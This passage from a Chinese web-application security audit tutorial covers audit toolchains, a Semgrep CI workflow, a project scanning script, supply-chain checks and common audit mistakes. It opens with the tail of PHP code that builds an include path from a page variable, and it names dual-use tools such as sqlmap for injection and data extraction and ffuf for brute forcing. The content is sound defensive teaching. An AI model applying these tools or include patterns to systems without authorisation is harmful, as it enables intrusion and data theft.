        $page = 'home';
    }
    include("templates/" . $page . ".php");
}
```

---

### 2.6 审计工具链实战配置

在实际项目中，单一工具无法覆盖所有漏洞类型。以下是推荐的工具组合方案：

| 工具 | 类型 | 核心能力 | 适用场景 |
|------|------|---------|---------|
| **Semgrep** | SAST | 模式匹配+污点追踪 | CI/CD集成，快速扫描 |
| **CodeQL** | SAST | 语义分析+自定义查询 | 深度代码审计 |
| **OWASP ZAP** | DAST | 自动化爬取+主动扫描 | 测试环境安全验证 |
| **Nuclei** | DAST | 模板化漏洞检测 | 快速已知漏洞扫描 |
| **ffuf** | Fuzzing | 高速目录/参数爆破 | 隐藏接口发现 |
| **sqlmap** | Exploit | SQL注入深度利用 | 注入验证与数据提取 |

**Semgrep CI/CD集成示例：**

```yaml
# .github/workflows/security.yml
name: Security Scan
on: [push, pull_request]

jobs:
  semgrep:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: semgrep/semgrep-action@v1
        with:
          config: >-
            p/php-sqli
            p/javascript
            p/nodejs
            p/security-audit
          generateSarif: true
      - uses: github/codeql-action/upload-sarif@v3
        if: always()
```

**自动化扫描脚本：**

```bash
#!/bin/bash
# scan_project.sh — 项目安全扫描一站式脚本

PROJECT_DIR=$1
REPORT_DIR="security-reports/$(date +%Y%m%d)"
mkdir -p "$REPORT_DIR"

echo "=== 1. Semgrep静态分析 ==="
semgrep scan --config auto --sarif -o "$REPORT_DIR/semgrep.sarif" "$PROJECT_DIR"

echo "=== 2. Nuclei漏洞扫描（需目标URL）==="
TARGET_URL=$2
if [ -n "$TARGET_URL" ]; then
    nuclei -u "$TARGET_URL" -severity critical,high -o "$REPORT_DIR/nuclei.txt"
fi

echo "=== 3. 依赖漏洞检查 ==="
if [ -f "$PROJECT_DIR/package.json" ]; then
    cd "$PROJECT_DIR" && npm audit --json > "$REPORT_DIR/npm-audit.json"
elif [ -f "$PROJECT_DIR/requirements.txt" ]; then
    pip-audit -r "$PROJECT_DIR/requirements.txt" -f json > "$REPORT_DIR/pip-audit.json"
fi

echo "=== 扫描完成，报告保存在: $REPORT_DIR ==="
```

---

### 2.7 常见审计误区与最佳实践

#### 误区一：只关注漏洞数量，忽视影响评估

发现50个低危XSS和发现1个SSRF可读取云凭据，后者的价值远高于前者。审计报告应按**实际可利用性**和**影响范围**排序，而非漏洞数量。

#### 误区二：过度依赖自动化工具

自动化工具能发现约60-70%的常见漏洞，但以下类型几乎只能靠人工审计发现：

- 业务逻辑漏洞（如支付金额篡改）
- 权限边界错误（如水平越权）
- 并发竞争条件（如重复支付）
- 复杂的状态机漏洞（如流程绕过）

#### 误区三：修复后不做回归测试

修复一个漏洞可能引入新的安全问题。推荐的修复流程：



#### 误区四：忽视供应链安全

第三方库本身就是巨大的攻击面。应定期执行：

```bash
# 检查已知漏洞的依赖
npm audit
pip-audit
safety check

# 检查依赖是否有恶意包（typosquatting）
npx lockfile-lint --path package-lock.json --type npm --allowed-hosts npm
```

#### 最佳实践清单

| 阶段 | 实践 | 优先级 |
|------|------|--------|
| 开发 | IDE集成Semgrep实时提示 | 高 |
| 提交 | pre-commit钩子扫描敏感信息 | 高 |
| CI/CD | 每次PR运行安全扫描 | 高 |
| 部署 | WAF规则覆盖已知攻击模式 | 中 |
| 运行 | RASP运行时保护 | 中 |
| 监控 | 异常请求检测和告警 | 中 |
| 应急 | 安全事件响应预案和演练 | 高 |

---

### 2.8 本节小结

Web应用漏洞审计是一项需要兼顾广度和深度的系统工程。本节通过五个典型场景——SQL注入、XSS、原型污染、SSRF、文件上传/包含——完整演示了从发现到修复的全流程。每个场景都包含了：

1. **漏洞原理**：理解"为什么会有这个漏洞"
2. **漏洞代码**：认识"漏洞在代码中长什么样"
3. **检测规则**：掌握"如何自动化发现这类漏洞"
4. **验证方法**：学会"如何确认漏洞可利用"
5. **安全修复**：理解"正确的修复方式是什么"

在实际审计工作中，应将本节介绍的工具和方法融入CI/CD流程，实现安全左移。记住：**安全不是一个终点，而是一个持续改进的过程**。定期审计、持续监控、快速响应，才能构建真正安全的Web应用。
